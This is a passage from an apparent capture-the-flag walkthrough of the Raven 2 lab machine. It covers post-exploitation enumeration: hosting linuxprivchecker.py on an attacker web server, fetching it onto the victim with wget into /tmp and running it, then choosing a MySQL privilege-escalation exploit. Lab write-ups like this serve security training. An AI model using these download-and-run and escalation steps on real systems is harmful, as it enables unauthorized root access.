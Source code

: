 ![Basic reconnaissance](img/raven2-13.png)


Also there are some nice tools that we could run in the victim machine if we have python installed. Let's make a comprobation:

```bash
which python
```
Result:

```
/usr/bin/python
```

Nice, let's proceed: There is a cool enumeration tool for linux called [Linux Privilege Cheker](linux-privilege-checker.md), that we can download from the referenced github repo and serve it from our attacker machine:

```bash
cp linuxprivchecker.py /var/www/html
cd /var/www/html
service apache2 start
```

And then, from the victim machine:

```bash
cd /tmp
wget http://192.168.56.102/linuxprivchecker.py
```

Now we can run it and see the results:

```bash
python /tmp/linuxprivchecker.py
```

Once you run it, you will get this enumeration of escalation exploits. Since potentially we have some root credentials for a service, we will try with the MYSQL vulnerability 4.X/5.0. 
